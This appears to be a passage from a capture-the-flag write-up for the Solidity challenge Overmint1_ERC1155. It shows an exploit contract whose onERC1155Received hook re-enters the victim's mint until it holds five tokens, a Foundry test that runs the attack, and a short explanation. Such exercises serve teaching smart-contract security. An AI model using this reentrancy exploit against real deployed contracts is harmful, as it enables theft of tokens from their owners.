 ```
    function onERC1155Received(
        address, /*operator*/
        address, /*from*/
        uint256, /*id*/
        uint256, /*value*/
        bytes memory /*data*/
    )
        public
        virtual
        override
        returns (bytes4)
    {
        //Reenter victim contract.
        //To complete, we need exactly 5 tokens
        if (overmint1_ERC1155.balanceOf(address(this), 0) != 5) {
            overmint1_ERC1155.mint(0, "");
        }
        return this.onERC1155Received.selector;
    }
}
```
- `test/Week8-9/Overmint1-ERC1155.t.sol`
```
contract Overmint1_ERC1155_Test is Test {
    Overmint1_ERC1155 public overmint1_ERC1155;
    ExploitContract public exploitContract;
    address owner;
    address attackerWallet;

    function setUp() public {
        // Deploy contracts
        overmint1_ERC1155 = new Overmint1_ERC1155();
        exploitContract = new ExploitContract(overmint1_ERC1155);
        owner = address(this);
        attackerWallet = address(0xdead);
    }

    function testExploit() public {
        vm.prank(attackerWallet);
        exploitContract.attack();

        vm.prank(attackerWallet);
        exploitContract.complete();

        _checkSolved();
    }

    function _checkSolved() internal {
        assertTrue(overmint1_ERC1155.balanceOf(address(attackerWallet), 0) == 5, "Challenge Incomplete");
        assertTrue(vm.getNonce(address(attackerWallet)) < 3, "must exploit in two transactions or less");
    }
}
```
### Exploit
For the attacking contract, we implement `ERC1155Holder` which implements the required `supportsInterface`, `onERC1155Received`, and `onERC1155BatchReceived` functions. This will allow us to override `onERC1155Received` in the exploit.
